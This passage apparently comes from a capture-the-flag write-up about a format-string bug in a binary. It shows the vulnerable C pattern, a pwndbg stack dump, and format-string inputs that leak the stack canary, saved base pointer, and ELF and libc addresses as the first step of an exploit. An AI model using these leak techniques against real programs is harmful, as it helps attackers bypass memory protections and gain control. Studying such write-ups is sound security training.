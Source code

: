 Indeed, there is a FSB present in the function. The equivalent C code roughly goes like this:

```c
char format[5];
read(stdin, &format, 5);
printf(&format);
...
```

Now let us take a look at the stack when printf is being called:

```
pwndbg> tele 16
00:0000│ rdi rsp  0x7ffcd8389a10 ◂— 0x7024373125 /* '%17$p' */
01:0008│          0x7ffcd8389a18 ◂— 0x0
... ↓
04:0020│          0x7ffcd8389a30 —▸ 0x7ffcd8389a60 —▸ 0x7ffcd8389a80 —▸ 0x556ed1f2a000 (__libc_csu_init) ◂— push   r15
05:0028│          0x7ffcd8389a38 ◂— 0x815118aea9844300
06:0030│ rbp      0x7ffcd8389a40 —▸ 0x7ffcd8389a60 —▸ 0x7ffcd8389a80 —▸ 0x556ed1f2a000 (__libc_csu_init) ◂— push   r15
07:0038│          0x7ffcd8389a48 —▸ 0x556ed1f29eca (harvest+119) ◂— jmp    0x556ed1f29f17
08:0040│          0x7ffcd8389a50 ◂— 0x100000020 /* ' ' */
09:0048│          0x7ffcd8389a58 ◂— 0x815118aea9844300
0a:0050│          0x7ffcd8389a60 —▸ 0x7ffcd8389a80 —▸ 0x556ed1f2a000 (__libc_csu_init) ◂— push   r15
0b:0058│          0x7ffcd8389a68 —▸ 0x556ed1f29fd8 (main+72) ◂— mov    eax, 0
0c:0060│          0x7ffcd8389a70 —▸ 0x7ffcd8389b60 ◂— 0x1
0d:0068│          0x7ffcd8389a78 ◂— 0x815118aea9844300
0e:0070│          0x7ffcd8389a80 —▸ 0x556ed1f2a000 (__libc_csu_init) ◂— push   r15
0f:0078│          0x7ffcd8389a88 —▸ 0x7fe8c4f5dbf7 (__libc_start_main+231) ◂— mov    edi, eax
10:0080│          0x7ffcd8389a90 ◂— 0x1
```

Awesome, we have all we need. After some trial and error, I noticed the inputs `%12$p`, `%15$p`, `%17$p` and `%21$p` correspond to the following values in the stack containing the values we need:

```
06:0030│ rbp      0x7ffcd8389a40 —▸ 0x7ffcd8389a60 —▸ 0x7ffcd8389a80 —▸ 0x556ed1f2a000 (__libc_csu_init) ◂— push   r15
...
09:0048│          0x7ffcd8389a58 ◂— 0x815118aea9844300
0b:0058│          0x7ffcd8389a68 —▸ 0x556ed1f29fd8 (main+72) ◂— mov    eax, 0
...
0f:0078│          0x7ffcd8389a88 —▸ 0x7fe8c4f5dbf7 (__libc_start_main+231) ◂— mov    edi, eax
```

So now we have:

- The `$rbp` value: `0x7ffcd8389a60` (needed to calculate where our exploit code is at)
- The stack canary value: `0x815118aea9844300` (stays constant throughout the lifetime of the process)
- The address of `main()`: __0x556ed1f29fd8 - 72 =__ `0x556ed1f29f90` (needed to calculate the elf base address)
- A libc address (\__libc_start_main): __0x7fe8c4f5dbf7 - 231 =__ `0x7fe8c4f5db10` (needed to calculate the libc base)
